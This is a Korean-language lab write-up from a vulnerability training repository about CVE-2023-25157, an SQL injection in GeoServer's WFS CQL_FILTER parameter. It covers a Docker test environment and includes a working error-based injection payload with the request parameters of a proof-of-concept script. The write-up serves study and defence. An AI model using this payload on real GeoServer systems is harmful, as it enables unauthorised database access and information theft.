

# GeoServer CVE-2023-25157
> 화이트햇 3기 [30반] 김정우
---
github 링크 - https://github.com/custiya/kr-vulhub/tree/main/GeoServer/CVE-2023-25157

### 취약점 요약
* CVE-2023-25157는 GeoServer라는 오픈소스 지도 데이터 서비스 웹 애플리케이션에 대해 발생한 SQLi 취약점
* GeoServer 2.22.0 이하의 일부 버전에서 발생
* WFS(Web Feature Service) 요청의 CQL_FILTER라는 파라미터가 취약함
* 인증없이 해당 API에 접근 가능하다면 누구든 이용 가능

### 환경 구성
* docker compose up -d 커맨드로 테스트 환경 실행
* http://your-ip:8080/geoserver 로 페이지에 접속 가능
* 먼저 PostGIS 데이터 저장소가 포함된 기존 작업 공간발견해야 함
* Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 존재
    * 작업 공간 이름 : vulhub
    * 데이터 저장소 이름 : pg
    * 테이블 이름 : example
    * 사용한 속성 : name

### poc.py
* 위에서 서술했던 내용을 기반으로 sqli 구문을 만든 형태
* 해당 구문을 request모듈을 사용하여 서버에 전달
* strStartsWith(name,'x'') = true
    * x 뒤의 '를 하나 더 추가하며 sql 문법 파괴
* and 1=(SELECT CAST ((SELECT version()) AS integer))
    * version() 함수는 PostgreSQL의 현재 버전을 반환하는 함수이며, 문자열
    * CAST(... AS integer)는 강제로 정수로 변환하므로 오류가 발생
    * 서버는 에러 메시지를 반환하게 되어, Blind SQL Injection 테스트가 가능
```
# 대상 URL
url = "http://localhost:8080/geoserver/ows"

# CQL_FILTER에 들어갈 원본 인젝션 문자열 (URL 디코딩된 상태)
cql_filter = "strStartsWith(name,'x'') = true and 1=(SELECT CAST ((SELECT version()) AS integer)) -- ') = true"

# 파라미터 설정
params = {
    "service": "wfs",
    "version": "1.0.0",
    "request": "GetFeature",
    "typeName": "vulhub:example",
    "CQL_FILTER": cql_filter
}
```
### 결과


### 정리
* 해당 poc를 통해 SQLi의 발생 여부를 알아 볼 수 있었다. 공격자는 SQL 쿼리를 통하여 시스템 정보들을 수집할 수 있을 것 같다.
* 해당 공격을 막기 위하여, 사용자 입력값 검증이 필요이 추가되어야 한다. 또한 입력 받은 SQL 구문을 바로 번역해서 사용하는 것이 아니라 별도로 저장하여 사용하여야 한다.